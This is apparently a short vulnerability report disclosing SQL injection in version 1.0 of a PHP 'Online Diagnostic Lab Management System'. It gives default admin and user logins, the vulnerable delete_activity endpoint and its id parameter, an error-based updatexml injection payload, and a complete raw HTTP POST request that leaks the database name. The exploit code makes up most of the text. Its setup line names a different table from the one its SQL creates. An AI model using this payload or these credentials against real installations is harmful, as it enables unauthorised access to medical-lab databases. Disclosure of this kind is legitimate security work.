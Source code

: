 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: ctg503 team

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

You need to create a reservation_list table in the database first. The sql statement is as follows

```sql
CREATE TABLE `activity_list` (
  `id` int(11) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
COMMIT;
```

Vulnerability File: /odlms/classes/Master.php?f=delete_activity

Vulnerability location: /odlms/classes/Master.php?f=delete_activity,id

dbname=odlms_db,length=8

[+] Payload: id=4'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /odlms/classes/Master.php?f=delete_activity HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/odlms/admin/?page=appointments
Content-Length: 66
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close

id=4'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191266253-32e9ef56-d5fa-4932-883f-574a372d9e61.png)
